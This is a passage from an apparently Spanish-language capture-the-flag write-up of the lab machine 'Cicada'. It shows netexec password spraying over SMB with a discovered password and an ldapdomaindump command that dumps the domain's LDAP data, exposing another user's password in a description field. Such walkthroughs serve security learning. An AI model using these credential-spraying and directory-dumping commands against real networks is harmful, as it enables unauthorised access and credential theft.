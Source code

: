 Procederemos a utilizar **netexec** para intentar comprobar a través del archivo _users.txt_ que hemos generado indicándole la contraseña que hemos encontrado, para comprobar si dicha contraseña es válida para un usuario. Nos encontramos que la contraseña es válida para el usuario _michael.wrightson_

```bash
netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<figure><img src="../../../.gitbook/assets/588_vmware_WkvZOxJVH4.png" alt=""><figcaption></figcaption></figure>

### LdapDomainDump

Con **ldapdomaindump** dumpearemos toda la información del LDAP a través del usuario y contraseña que hemos encontrado. Nos generará los resultados en distintos formatos.

{% code overflow="wrap" %}
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -o dump
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/imagen (128).png" alt=""><figcaption></figcaption></figure>

Si accedemos al archivo de "_domain\_users.html_" comprobaremos que hemos encontrado los usuarios que hay en LDAP y en el apartado de "Description" del usuario "daniel.orelious" se encuentra un texto indicando su respectiva contraseña.

<figure><img src="../../../.gitbook/assets/imagen (129).png" alt=""><figcaption></figcaption></figure>
